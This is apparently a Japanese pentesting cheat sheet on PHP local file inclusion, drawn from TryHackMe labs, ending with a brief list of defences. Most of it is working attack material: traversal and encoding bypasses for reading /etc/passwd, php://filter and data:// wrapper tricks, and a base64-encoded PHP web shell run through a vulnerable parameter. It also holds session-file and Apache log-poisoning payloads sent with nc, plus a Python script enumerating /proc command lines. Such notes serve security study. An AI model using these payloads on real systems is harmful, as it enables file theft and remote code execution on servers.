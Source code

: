 # ファイルインクルージョン

## LFI

### パストラバーサル

```php
# Nullバイト追加で文字列の結合を無効化する
# PHP 5.3.4 以降では機能しない
include("languages/../../../../../etc/passwd%00").".php");
↓
include("languages/../../../../../etc/passwd");
```

```shell
# カレントディレクトリトリック
http://webapp.thm/index.php?lang=/etc/passwd/.
```

```shell
# ../ を削除するフィルターへの対抗例
....//....//....//....//etc/passwd
↓
../../../../etc/passwd

# ../ を URL エンコード %2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

# 二重エンコード（アプリケーションが2回エンコードする場合）
%252e%252e%252f
```

### ラッパー

### PHP ラッパー

```php
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/string.rot13/resource=/etc/passwd
php://filter/string.toupper/resource=/etc/passwd
php://filter/string.tolower/resource=/etc/passwd
php://filter/string.strip_tags/resource=/etc/passwd
```

#### Data ラッパー

```php
data:text/plain,<?php%20phpinfo();%20?>
```

#### ラッパーによる RCE

cmd パラメータで指定したコマンドを実行するペイロード

```php
<?php system($_GET['cmd']); echo 'Shell done!'; ?>
```

Base64 エンコードされたペイロードをデコードするフィルター

```php
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

脆弱性のある URL に、whoami を実行させるリクエストを送信

```shell
http://ip/foo.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami
```

### PHP セッションファイル

下記の脆弱なサーバーコードがあるとする。

```php
if(isset($_GET['page'])){
    $_SESSION['page'] = $_GET['page'];
    echo "You're currently in" . $_GET["page"];
    include($_GET['page']);
}
```

```text
http://ip/foo.php?page=<?php echo phpinfo(); ?>
```

リクエストを送ると、サーバーコードの 2 行目によって、攻撃者が送った PHP コードがセッションファイルに保存される。  
次に、

```text
http://ip/foo.php?page=/var/lib/php/sessions/sess_[sessionID]
```

リクエストを送ると、サーバーコードの 4 行目によって、phpinfo()が実行される。

### ログポイズニング

下記のリクエストを送ると、PHP コード（2 行目の部分）がアクセスログに保存される。  
その後、/var/log/apache2/access.log を include することで PHP コードを実行させる。  

```shell
$ nc 10.10.5.212 80
<?=`$_GET[0]`?>
HTTP/1.1 400 Bad Request
Date: Thu, 23 Nov 2023 05:39:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 335
Connection: close
Content-Type: text/html; charset=iso-8859-1
HTTP/1.1 400 Bad Request
Date: Tue, 07 Jan 2025 01:19:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 333
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at ip-10-10-5-212.eu-west-1.compute.internal Port 80</address>
</body></html>
```

パス

```text
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

## 注目すべきファイル

- `/proc/self/cmdline` 現在のプロセスの起動コマンドライン
- `/proc/self/environ` コンテキストユーザーなど
- `/proc/self/status` プロセスのコマンドラインオプション
- `/proc/[pid]/cmdline` 
- `/proc/[pid]/cwd`
- `/proc/[pid]/environ`

```sh
seq 1000 > pid.txt

ffuf...

# 不明なポートを使っているコマンドを調べる例
ffuf -u http://airplane.thm:8000/?page=../../../../proc/FUZZ/cmdline -c -w ./pid.txt -mr '6048' 
```

コマンドラインをFetchするスクリプト

https://0xb0b.gitbook.io/writeups/tryhackme/2024/airplane

```python
import requests

for i in range(1, 1001):
    print(f"\r{i}", end="", flush=True)
    url = f"http://airplane.thm:8000/?page=../../../../../proc/{i}/cmdline"
    response = requests.get(url)
    
    if response.status_code == 200:
        content = response.text
        if 'Page not found' not in content and content:
            print(f"\r/proc/{i}/cmdline: {content}")
```

## RFI

## セキュリティ

- ユーザー入力の検証
- フレームワークを含むシステムのアップデート
- PHP エラーを OFF にする
- Web アプリケーションファイアウォール（WAF）
- 可能であれば allow_url_fopen, allow_url_include 等のオプション OFF
- ファイル名と場所のホワイトリストとブラックリストの実装
